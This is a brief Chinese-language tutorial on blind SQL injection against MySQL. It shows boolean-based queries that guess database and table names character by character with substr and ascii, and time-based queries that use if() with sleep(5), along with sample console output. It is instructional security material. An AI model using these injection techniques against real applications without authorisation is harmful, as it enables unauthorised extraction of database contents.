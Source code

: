 .### 基于布尔盲注
获取表名：
`select table_name from information_schema.tables where table_schema=database() limit 0,1;
`
获取表名第一个字符：
`select substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) as xxx;`
获取表明第一个字符的ASCII值：
`select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)) as xxx;`
根据返回结果的真假来判断所要猜测的内容是否为真。

--- 注入步骤：
1. 获取数据库名长度`length(database())`
2. 通过猜测数据库名的每一个字符猜测数据库名，通过比较ASCII值的大小（利用二分法减少比较次数）
举例：当前数据库名为test
通过下面的方法可以猜出数据库名称的第一个字母为t，依次类推可猜解处数据库名称。
```
mysql> select ascii(substr(database(),1,1))<115 as xxx;
+------+
| xxx  |
+------+
|    0 |
+------+
1 row in set (0.00 sec)

mysql> select ascii(substr(database(),1,1))<117 as xxx;
+------+
| xxx  |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```
3. 仿照上面的方法可以分别猜测 数据表，字段，数据的具体内容。

### 基于时间盲注
首先，了解`if`的用法
`if(expr,1,2) --- 如果expr为true，则执行1；否则，执行2`
通过判断SQL语句的执行时间来判断所要猜测的内容是否为真。
```
mysql> select if(ascii(substr(database(),1,1))<117,sleep(5),null) as xxx;
该SQL语句会等待5秒钟才会显示结果。
+------+
| xxx  |
+------+
|    0 |
+------+
1 row in set (5.00 sec)

mysql> select if(ascii(substr(database(),1,1))<115,sleep(5),null) as xxx;
+------+
| xxx  |
+------+
| NULL |
+------+
1 row in set (0.00 sec)
```
借此，可以一个一个字符的猜测所需要的内容。
